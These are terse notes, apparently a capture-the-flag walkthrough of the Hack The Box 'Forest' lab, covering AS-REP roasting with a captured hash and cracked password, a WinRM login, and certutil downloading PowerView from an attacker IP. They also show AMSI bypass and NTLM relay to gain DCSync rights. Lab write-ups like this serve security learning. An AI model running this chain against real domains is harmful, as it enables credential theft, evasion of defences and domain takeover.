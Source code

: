 ### re-assembly rpcclient users list
```bash
cat users | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > users.txt
```

### Enum users
```bash
./GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```

$krb5asrep$23$svc-alfresco@HTB.LOCAL:7f409a8728db287dc66cebd404de8f76$a9b55fd6d781259c25c6d1d89ae6ec559d8b694ebba4c98700422d988a7165db39525ff0d646894a8cfb9a49d1f5e76c81eda2a3d5f31e9626eb6afdcf4e897bd03687156ea1d23f8f67132ec7d423bf66d1b9ef89a32aaa81fc36f8c9c3dd6426c53936c008834cd43d043063331fa2fa99a02cc35c597c57dc396f2f64d4f2d9d684e4c0e4e93d17e27f8dab24b00c313d373f1215baf78a537e476775f567b815b082f5ea0330bf63e18ff31b912f421707a550d69353c4163936b98edbd9e6badd2ea02e1627078897f403e3c36574c93a1ffb26e2d64d966d1350afff7e1f3821510acc

svc-alfresco@HTB.LOCAL
s3rvice

### Easy box indeed
```bash
❯ crackmapexec winrm $IP -u svc-alfresco -p s3rvice
WINRM       10.129.232.105  5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.232.105  5985   FOREST           [*] http://10.129.232.105:5985/wsman
WINRM       10.129.232.105  5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

### DCSync Privileges needs PowerView.ps1
```bash
certutil -urlcache -f http://10.10.16.9/PowerView.ps1 PowerView.ps1

Import-Module .\PowerView.ps1
```

```bash
net group "Exchange Windows Permissions" svc-alfresco /add /domain
net localgroup "Remote Management Users" svc-alfresco /add /domain

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync # It will fail as defender stop importing the script(PowerView.ps1) here
```

##### menu -> Bypass-4MSI
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> Bypass-4MSI
[+] Success!
```

##### Life saver ntlmrelayx.py since none of them working
```bash
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t ldap://$IP --escalate-user svc-alfresco

# It actually runs aclpwn.py aclpwn-20211009-001222.restore 
```
Although, i did run it twice to make it work
https://rootinjail.com/blog/post/htb-forest/